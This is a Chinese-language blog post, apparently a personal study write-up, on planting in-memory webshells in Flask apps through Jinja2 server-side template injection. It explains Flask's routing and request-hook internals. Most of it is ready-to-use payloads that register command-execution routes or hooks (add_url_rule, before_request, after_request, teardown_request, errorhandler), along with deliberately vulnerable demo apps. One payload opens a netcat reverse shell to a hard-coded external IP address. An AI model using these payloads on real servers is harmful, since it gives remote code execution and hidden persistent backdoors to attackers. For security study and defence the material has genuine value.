







+++
title = "浅析flask内存马"
slug = "flask-memory-shell-analysis"
description = "你学SSTI不学内存马？"
date = "2024-09-02T11:03:56"
lastmod = "2024-09-02T11:03:56"
image = ""
license = ""
categories = ["talk"]
tags = ["姿势", "flask"]
+++

# 0x01 前言

flask中的SSTI注入或许是个好姿势，但是我能不能`getshell`呢,之前经常阅读联队写的大赛WP,**"写个脚本打入内存马"**，好高级，好想学，那今天我来看看这到底是个什么乾坤

# 0x02 question

flask现在已经更新换代了，但是我觉得仍然值得学习，那么先从老版本内存马`payload`看起来吧

## 老payload(2022年之前)

```python
url_for.__globals__['__builtins__']['eval']("app.add_url_rule('/shell', 'shell', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read())",{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']})
```

一看除了导入方法搞了一个`cmd`参数`RCE`之外还是挺多看不懂的,写成py慢慢看

## 分析老payload

```python
url_for.__globals__['__builtins__']['eval'](
    '''app.add_url_rule(
        '/shell',
        'shell',
        lambda:__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd','whoami')).read()
    )
    ''',
    {
        '_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],
        'app':url_for.__globals__['current_app']
    })
```

首先第一行引用eval方法，这个人尽皆知吧？

```python
'''app.add_url_rule(
        '/shell',
        'shell',
        lambda:__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd','whoami')).read()
    )
    '''
```

> add_url_rule()是 Flask 框架中一个核心的方法，用于手动添加 URL 路由规则。它允许开发者定义哪些 URL（即路由）应该调用哪些视图函数，并为这些路由指定处理 HTTP 请求的方法（如 GET、POST 等）。

- **动态路由**：当需要动态生成多个路由时，使用 `app.add_url_rule()` 可以更加灵活。
- **模块化应用**：在模块化 Flask 应用中，你可能希望在模块或蓝图中手动注册路由。
- **路由的批量定义**：可以在循环或其他控制结构中使用 `app.add_url_rule()` 批量添加路由。

由于`app`是当前flask的默认实例(当前对象),那么且为动态可增加路由，所以在这里我们应该可以知道，内存马的原理应该是**动态添加路由**来实现自己想要的

再者深入`add_url_rule`到底参数是干啥的

```python
app.add_url_rule(rule, endpoint=None, view_func=None, provide_automatic_options=None, options)
```

> **`rule`**: 定义路由,即客户端访问的路径。
>
> **`endpoint`**: 路由的端点名称，是一个标识符，用于在 Flask 内部引用这个路由。
>
> **`view_func`**: 处理这个路由请求的视图函数，当客户端访问这个路径时，会调用这个函数。
>
> **`provide_automatic_options`**: 一个布尔值，指示是否自动生成 HTTP OPTIONS 请求的处理函数。(默认为true)
>
> **`options`**: 其他的可选参数，比如 `methods`，定义允许的 HTTP 方法。

那么理解了参数,这个`lambda`又是个啥(~~菜鸡勿怪~~)

通过自己的理解，`lambda`可以说成是一个包含`payload`的参数,但是他是一个匿名函数，自己写代码的时候可能是很简洁，但是如果出现`bug`的话并不是那么好`debug`

那么来到这里

```python
_request_ctx_stack.top
#这个东西是啥
```

这里我们需要了解一下flask的上下文机制

> **请求**:与每个 HTTP 请求相关联，包含了与该请求相关的所有数据，如 `request`、`session` 等。每次请求达到时创建,请求结束之后销毁
>
> **应用**:其与应用实例(app)相关,包含应用范围内的全局数据，我们所遇到的的`current_app`就是这种。在应用开始时创建，并在应用终止时销毁

`_request_ctx_stack`是`flask`自带的栈,栈是一种后进先出（LIFO, Last In, First Out）的数据结构，最后进入栈的元素最先被弹出。讲到这里是不是有点明白为啥用`top`,而不是`bottom`,`_request_ctx_stack.top`跟踪我们最后推入栈的元素，也就是`cmd`

最后通过局部变量字典传入他们内置的即可调用啦

```python
{
        '_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],
        'app':url_for.__globals__['current_app']
    }
```

## demo老马

那么搞个环境试试?

```python
from flask import Flask, request, render_template_string

app = Flask(__name__)


@app.route('/')
def hello_world():  # put application's code here
    person = 'bao'
    if request.args.get('name'):
        person = request.args.get('name')
    template = '<h1>Hi, %s.</h1>' % person
    return render_template_string(template)


if __name__ == '__main__':
    app.run()
```

`emm`,不出意外的报错了,报错原因

```python
def _check_setup_finished(self, f_name):
    if self._got_first_request:
        raise AssertionError(
            f"The setup method '{f_name}' can no longer be called on the application. "
            "It has already handled its first request, any changes will not be applied consistently."
            "Make sure all imports, decorators, functions, etc. needed to set up the application are done before running it."
        )
```

他进行了设置不允许在中途添加路由了

那么我们换一下版本来重新实验(今天必须把这个玩意整明白了)

```cmd
#先创建文件夹
cd C:\Users\baozongwi\Desktop\test

python -m venv venv
venv\Scripts\activate

pip install flask==2.1.0
pip install flask-login==0.6.0
pip install werkzeug==2.0.3

python app.py

#退出环境并删除
deactivate
rmdir /s /q venv
```

```
http://127.0.0.1:5000/?name={{url_for.__globals__['__builtins__']['eval']("app.add_url_rule('/shell', 'shell', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd','whoami')).read())",{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']})}}

响应:
127.0.0.1 - - [02/Sep/2024 12:24:26] "GET /?name={{url_for.__globals__[%27__builtins__%27][%27eval%27](%22app.add_url_rule(%27/shell%27,%20%27shell%27,%20lambda%20:__import__(%27os%27).popen(_request_ctx_stack.top.request.args.get(%27cmd%27,%27whoami%27)).read())%22,{%27_request_ctx_stack%27:url_for.__globals__[%27_request_ctx_stack%27],%27app%27:url_for.__globals__[%27current_app%27]})}} HTTP/1.1" 200 -
```



成功打入嘻嘻嘻嘻嘻嘻，我太开心啦

## 新马

介于时代已经变了，我们如何应对呢

既然我们已经知道了打入内存马的原理是**添加路由**，那么我们去网上查找一下那些函数可以添加路由不就行了，我真棒棒

首先实验环境

```python
from flask import Flask, request, render_template_string

app = Flask(__name__)


@app.route('/')
def hello_world():  # put application's code here
    person = 'bao'
    if request.args.get('name'):
        person = request.args.get('name')
    template = '<h1>Hi, %s.</h1>' % person
    return render_template_string(template)


if __name__ == '__main__':
    app.run(host='0.0.0.0',port=5000)
```

### 装饰器

> 装饰器是一种用于修改或增强函数或方法行为的高级函数。它可以在不改变原函数代码的前提下，**动态**地给函数添加额外的功能。通常是通过 `@decorator_name` 语法糖来应用的，可以作用于函数、方法，甚至类。装饰器本质上是一个接受函数作为参数并返回一个新函数的函数。

#### before_request()

before_request 方法允许我们在每个请求之前执行一些操作。我们可以利用这个方法来进行身份验证、请求参数的预处理等任务。

```python
def before_request(self, f):
        """Registers a function to run before each request.
        """
        self.before_request_funcs.setdefault(None, []).append(f)
        return f
```

那么搞到源码之后发现其中起作用的应该就是`self.before_request_funcs.setdefault(None, []).append(f)`了，一样的逐步分析

`self.before_request_funcs` 是 Flask 应用对象（`Flask` 类的实例）中的一个属性。它是一个 **字典**，用于存储在请求处理之前需要执行的钩子函数。

`setdefault` 是 Python 字典的一个方法，用来获取字典中指定键的值。如果该键存在，返回其对应的值；如果不存在，则插入这个键，并将其值设为指定的默认值。

- **`None`**: 这是我们要检查或插入的键。对于 `before_request_funcs` 字典，`None` 键表示全局应用的 `before_request` 钩子
- **`[]`**: 如果 `before_request_funcs` 字典中不存在键 `None`，那么 `setdefault` 会插入这个键，并将其值设为一个空列表 `[]`。

`.append(f)` 是对列表进行操作的方法，用来将元素 `f` 添加到列表的末尾。

那么此时我们只要把`lambda:__import__('os').popen('whoami').read()`插入，那不就爽了？

那么现在获得这个函数

其在app中，所以我们得到**sys.modules**(可获取所有模块)

> sys.modules是一个全局字典，该字典是python启动后就加载在内存中。每当程序员导入新的模块，sys.modules都将记录这些模块。字典sys.modules对于加载模块起到了缓冲的作用。当某个模块第一次导入，字典sys.modules将自动记录该模块。当第二次再导入该模块时，python会直接到字典中查找，从而加快了程序运行的速度




得到之后加`payload`,一次打入二次回显即可



```
url_for.__globals__.__builtins__['eval']("sys.modules['__main__'].__dict__['app'].before_request_funcs.setdefault(None, []).append(lambda:__import__('os').popen('whoami').read())")
```

但是貌似有个坏处就是只能打一次，打完就得刷新，这也太露骨了吧？！

#### after_request()

```python
def after_request(self, f):
    self.after_request_funcs.setdefault(None, []).append(f)
    return f
```

这乍一看一模一样啊(还是有很大区别的)

> 在视图函数执行完毕并生成响应对象之后调用。即请求已经被处理完成并生成了响应，所有注册的 `after_request` 函数将对该响应对象进行进一步的处理。

也就是说我们想要打入必须重新构造一个响应(~~不会了~~)

```
url_for.__globals__['__builtins__']['eval']("app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.args.get('cmd') and exec(\"global CmdResp;CmdResp=__import__(\'flask\').make_response(__import__(\'os\').popen(request.args.get(\'cmd\')).read())\")==None else resp)",{'request':url_for.__globals__['request'],'app':url_for.__globals__['current_app']})
```

不是吧这么长，那我们分析一下拖下来

```python
url_for.__globals__['__builtins__']['eval'](
    '''
    app.after_request_funcs.setdefault(None, []).append(
        lambda resp: CmdResp if request.args.get('cmd') and exec(
            \"\"\"
            global CmdResp;
            CmdResp = __import__('flask').make_response(
                __import__('os').popen(request.args.get('cmd')).read()
            )
            \"\"\"
        ) == None else resp
    )
    ''',
    {
        'request': url_for.__globals__['request'],
        'app': url_for.__globals__['current_app']
    }
)
```

> 结果1 if 条件 else 结果2
>

- **结果1 (`CmdResp`)**：如果条件为 `True`，返回 `CmdResp`。
- **条件 (`request.args.get('cmd') and exec(...) == None`)**：用来决定返回哪个结果。
- **结果2 (`resp`)**：如果条件为 `False`，返回原始响应 `resp`。(这里也就是返回`bao`)

```python
CmdResp = __import__('flask').make_response(
                __import__('os').popen(request.args.get('cmd')).read()
            )
```

用于生成新的响应内容,也就是我们的`shell`

而且我们知道这个是个恒真式，所以自然而然的就成功了



成功打入

### hook函数

> 钩子函数是一种设计模式，用于在特定的程序执行点插入自定义代码。这种机制通常由框架或库提供，允许开发者在特定事件发生时挂钩（hook）到这些事件上执行自定义逻辑。钩子函数的典型用法是作为回调函数，在某些预定义的事件或操作发生时自动被调用。

其实上面的装饰器中就已经包含了两种钩子函数了(发现没嘿嘿)

#### teardown_request

> `teardown_request` 是在每个请求的最后阶段执行的，即在视图函数处理完成并生成响应后，或者在请求中发生未处理的异常时，都会执行这个钩子。
>
> 它执行的时机是在响应已经确定之后，但在最终发送给客户端之前。

```python
def teardown_request(self, f):
        self.teardown_request_funcs.setdefault(None, []).append(f)
        return f
```

但是介于这个函数没有回显所以我们弹`shell`或者写文件会比较好

```
url_for.__globals__.__builtins__['eval']("sys.modules['__main__'].__dict__['app'].teardown_request_funcs.setdefault(None, []).append(lambda error: __import__('os').system('mkfifo /tmp/fifo; /bin/sh -i < /tmp/fifo | nc 106.54.239.23 9999 > /tmp/fifo; rm /tmp/fifo'))")
```

反弹成功



```
url_for.__globals__['__builtins__']['eval']("sys.modules['__main__'].__dict__['app'].teardown_request_funcs.setdefault(None, []).append(lambda error: __import__('os').popen('ls > 11.txt').read())")
```

成功打入，访问文件即可



并且通过测试发现，这个文件的结果还是动态更新的，只要`flask`实例还在

#### errorhandler

> 在 Flask 中，`errorhandler` 是一种机制，用于处理应用程序中发生的错误。当你的 Flask 应用遇到错误（例如 404 页面未找到或 500 服务器内部错误）时，你可以定义自定义的错误处理程序来处理这些错误并返回适当的响应。

```python
def errorhandler(self, code_or_exception):
        def decorator(f):
            self._register_error_handler(None, code_or_exception, f)
            return f
        return decorator
```

看完之后发现调用的是另一个东西

```python
def _register_error_handler(self, key, code_or_exception, f):
    """
    Registers an error handler for the given code or exception class.

    :param key: If this handler is specific to a blueprint, this will be the
        blueprint name. If this handler is for all blueprints, None.
    :param code_or_exception: The code as an integer, or an exception class.
    :param f: The handler function.
    """
    if isinstance(code_or_exception, HTTPException):
        code = code_or_exception.code
    elif isinstance(code_or_exception, int):
        code = code_or_exception
    else:
        code = None

    exc_class, code = self._get_exc_class_and_code(code_or_exception)

    if exc_class not in self.error_handler_spec:
        self.error_handler_spec[exc_class] = {}

    self.error_handler_spec[exc_class][key] = f

    # If the handler is for a specific HTTP status code, also store it by
    # code in case there are multiple exceptions for the same code.
    if code is not None:
        self.error_handler_spec[code] = self.error_handler_spec[exc_class]
```

到了关键了发现`exc_class\code`都是由`_get_exc_class_and_code`控制

> 这个定义的函数 _get_exc_class_and_code 是用来处理异常类或 HTTP 状态码的。函数接受一个参数，exc_class_or_code，可以是一个异常类或者一个 HTTP 状态码（整型）。

来了那我们怎么可控呢，来绕圈圈啦

被`_get_exc_class_and_code`获取之后,再通过`error_handler_spec`进行重新处理

`error_handler_spec` 是一个字典，主要用于映射不同的错误类型到相应的错误处理函数

```python
{
    None: {
        <error_code>: {
            <exc_class>: <error_handler_function>
        }
    }
}
```

- **`None`**: 这个键表示默认的错误处理程序，如果没有为特定的错误码和异常类定义处理程序，则使用默认处理程序。
- **`<error_code>`**: 错误码（如 404、500 等），用于指定错误类型。
- **`<exc_class>`**: 异常类，用于指定具体的异常。
- **`<error_handler_function>`**: 错误处理函数，当指定的错误码和异常类匹配时，Flask 会调用这个函数来处理错误。

所以我们直接可控`f`即可

```
url_for.__globals__.__builtins__.exec("global exc_class;global code;exc_class, code = sys.modules['__main__'].__dict__['app']._get_exc_class_and_code(404);sys.modules['__main__'].__dict__['app'].error_handler_spec[None][code][exc_class] = lambda a:__import__('os').popen(request.args.get('cmd','whoami')).read()")
```

分析一下

```python
url_for.__globals__.__builtins__.exec(
    '''
    global exc_class
    global code
    exc_class, code=sys.modules['__main__'].__dict__['app']._get_exc_class_and_code(404)
    sys.modules['__main__'].__dict__['app'].error_handler_spec[None][code][exc_class]=
    lambda a:__import__('os').popen(request.args.get('cmd','whoami').read())
'''
)
```

```python
exc_class, code=sys.modules['__main__'].__dict__['app']._get_exc_class_and_code(404)
#先获取异常类和错误码
sys.modules['__main__'].__dict__['app'].error_handler_spec[None][code][exc_class]=
    lambda a:__import__('os').popen(request.args.get('cmd','whoami').read())
#设置404错误处理函数，也就是我们注入的地方
```

```
url_for.__globals__.__builtins__.exec("global exc_class;global code;exc_class, code = app._get_exc_class_and_code(404);app.error_handler_spec[None][code][exc_class] = lambda a:__import__('os').popen(request.args.get('cmd','whoami')).read()",{'request':url_for.__globals__['request'],'app':url_for.__globals__['current_app']})
```

但是你会发现打不通，那是因为服务器的处理问题，此时我们需要一个`try`来捕捉，也是为了能够确保触发404(现实生活肯定也是能触发404的)

```python
from flask import Flask, request, render_template_string, abort

app = Flask(__name__)

# 主页路由
@app.route('/')
def index():
    return 'Welcome to the SSTI Demo!'

# 模板渲染路由，存在SSTI漏洞
@app.route('/template')
def template():
    # 获取用户输入的模板字符串
    template_str = request.args.get('template', '')
    
    # 使用Jinja2渲染模板
    try:
        rendered = render_template_string(template_str)
    except Exception as e:
        # 捕获模板渲染异常并返回404错误
        abort(404)
    
    return rendered

if __name__ == '__main__':
    # 启动Flask应用，绑定到所有IP地址（0.0.0.0），并关闭调试模式
    app.run(host='0.0.0.0', port=80, debug=False)

```

此时我们再打即可打通



# 0x03 小结

其实本次文章并不全面，钩子函数还有好几个并没有哦进行分析，但是经过学习，明白了原理，加路由、重新定义界面、在内置列表中添加恶意`shell`等操作来达到打入内存马的目的,嘻嘻开心！！！
